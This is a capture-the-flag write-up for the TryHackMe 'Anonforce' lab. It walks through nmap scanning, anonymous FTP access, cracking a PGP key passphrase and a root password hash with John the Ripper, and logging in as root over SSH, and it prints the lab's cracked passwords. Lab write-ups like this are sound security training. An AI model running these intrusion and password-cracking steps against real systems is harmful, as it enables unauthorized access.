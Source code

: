 ```yaml
---
title: TryHackMe - Anonforce
author: Bonface
date: 2024-01-10 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - ftp
  - ssh
  - gpg
  - john
  - crack
image:
  path: /assets/img/try_hack_me/Easy/Anonforce/0.jpeg
  alt: Anonforce
---
```


# Description  
`Anonforce` is an easy `boot2root` machine for FIT and `bsides guatemala CTF` .
The machine has two open ports ftp and ssh. Ftp allows anonymous login this allows us to access the contents of the home directory and also get a folder with `pgp`  keys that we can import in to our machine after cracking the passphrase using `john`. with that we `decrypt` the backup file to get the `/etc/passwd` file .Having access to the root hash we crack the hash to get the root password.
# Port Scan
We use `nmap` to  discover the open ports on the target.

```sh
nmap -sV -sC -v 10.10.59.93 | tee nmap.txt
```

```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 2 0 0 4096 Aug 11 2019 bin
| drwxr-xr-x 3 0 0 4096 Aug 11 2019 boot
| drwxr-xr-x 17 0 0 3700 Feb 08 07:18 dev
| drwxr-xr-x 85 0 0 4096 Aug 13 2019 etc
| drwxr-xr-x 3 0 0 4096 Aug 11 2019 home
| ...
| drwxr-xr-x 19 0 0 4096 Aug 11 2019 lib
| drwxr-xr-x 2 0 0 4096 Aug 11 2019 lib64
| drwx------ 2 0 0 16384 Aug 11 2019 lost+found
| drwxr-xr-x 4 0 0 4096 Aug 11 2019 media
| drwxr-xr-x 2 0 0 4096 Feb 26 2019 mnt
| drwxrwxrwx 2 1000 1000 4096 Aug 11 2019 notread [NSE: writeable]
| drwxr-xr-x 2 0 0 4096 Aug 11 2019 opt
| dr-xr-xr-x 94 0 0 0 Feb 08 07:18 proc
| drwx------ 3 0 0 4096 Aug 11 2019 root
| drwxr-xr-x 18 0 0 540 Feb 08 07:18 run
| drwxr-xr-x 2 0 0 12288 Aug 11 2019 sbin
| drwxr-xr-x 3 0 0 4096 Aug 11 2019 srv
| dr-xr-xr-x 13 0 0 0 Feb 08 07:18 sys
| drwxrwxrwt 9 0 0 4096 Feb 08 07:18 tmp [NSE: writeable]
| drwxr-xr-x 10 0 0 4096 Aug 11 2019 usr
| drwxr-xr-x 11 0 0 4096 Aug 11 2019 var
| lrwxrwxrwx 1 0 0 30 Aug 11 2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
|_lrwxrwxrwx 1 0 0 30 Aug 11 2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
...
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
| 256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_ 256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
We get two open ports `ftp` on port 21 and `ssh` on port 22
Ftp allows anonymous log in thus we can log in with no valid credentials.  

# ftp_21
```sh
ftp anonymous@10.10.59.93
```

Use `anonymous:anonymous`  
![](../assets/img/try_hack_me/Easy/Anonforce/1.png)  
Enumerating i got the user flag .  

![](../assets/img/try_hack_me/Easy/Anonforce/2.png)

# Privilege Escalation

![](../assets/img/try_hack_me/Easy/Anonforce/2.png)

- We can not view or write any thing on the root directory
- But there is a fishy directory with unique permissions.

```sh
cd notread
mget *
```
![](../assets/img/try_hack_me/Easy/Anonforce/4.png)  
One file is an image while the other has some guddies  
![](../assets/img/try_hack_me/Easy/Anonforce/5.png)

Now we have 
- open port 22 = ssh
- id_rsa key

Lacking a valid user name .
run search_sploit to see if the ssh has an exploit
![](../assets/img/try_hack_me/Easy/Anonforce/6.png)

- Downloaded the exploit but was unable to use it.
- Did some research.

We got two files from ftp :
- backup.pgp  
- private.asc  

We have an encrypted `backup.pgp` file, and very likely a private key file that we can use to decrypt it.  
First, what we need to do is import the private key into our keyring (key management database) of the PGP application.  

```sh
gpg --import private.asc
```
![](../assets/img/try_hack_me/Easy/Anonforce/7.png)

We need to crack the passphrase in order to import it into the key ring.  
We can use `John the Ripper` password-cracking tool for this.  
```sh
 gpg2john private.asc > privatehash.txt
```

Now we can run john to crack the hash using the famous `rockyou.txt` dictionary.  
```sh
 john privatehash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![](../assets/img/try_hack_me/Easy/Anonforce/8.png)

Now that we have the passphrase for the private key, we can import it into the `keyring` and `decrypt` the `backup.pgp` file.  

passphrase = `xbox360`
```sh
gpg --import private.asc

gpg --decrypt backup.pgp
```
![](../assets/img/try_hack_me/Easy/Anonforce/9.png)

We will get a backup of the `passwd` file, that includes the password hash of `root` and `melodias` users.  
![](../assets/img/try_hack_me/Easy/Anonforce/10.png)

Now we crack the `passwd` file using john.
![](../assets/img/try_hack_me/Easy/Anonforce/11.png)
![](../assets/img/try_hack_me/Easy/Anonforce/12.png)

  
- username = `root`  
- password = `hikari`  

```sh
 ssh root@10.10.59.93
 ```  
![](../assets/img/try_hack_me/Easy/Anonforce/13.png)
